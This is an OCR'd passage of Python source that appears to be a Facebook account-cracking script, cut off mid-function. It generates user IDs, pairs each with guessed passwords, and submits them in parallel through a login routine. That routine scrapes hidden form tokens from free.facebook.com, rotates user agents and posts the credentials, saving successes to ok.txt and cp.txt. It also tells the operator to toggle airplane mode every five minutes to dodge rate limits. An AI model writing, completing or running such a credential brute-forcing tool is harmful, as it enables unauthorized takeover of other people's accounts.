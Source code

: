         print('\033[1;36m TOTAL IDS: '+tl)

        print('\033[1;36m THE PROCESS HAS BEEN STARTED')

        print('\033[1;31m USE AEROPLANE MOOD IN EVERY 5 MIN ')

        print('\033[1;32m••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')

        for love in user:

            pwx = [love[1:]]

            uid = code+love

            for Eman in HamiiID:

                pwx.append(Eman)

            manshera.submit(rcrack,uid,pwx,tl)

    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')

    print('Crack process has been completed')

    print('Ids saved in ok.txt,cp.txt')

    print('\033[1;32m•••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••••')

def rcrack(uid,pwx,tl):

    #print(user)

    global loop

    global cps

    global oks

    global proxy

    try:

        for ps in pwx:

            pro = random.choice(ugen)

            session = requests.Session()

            free_fb = session.get('https://free.facebook.com').text

            log_data = {

                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),

            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),

            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),

            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),

            "try_number":"0",

            "unrecognized_tries":"0",

            "email":uid,
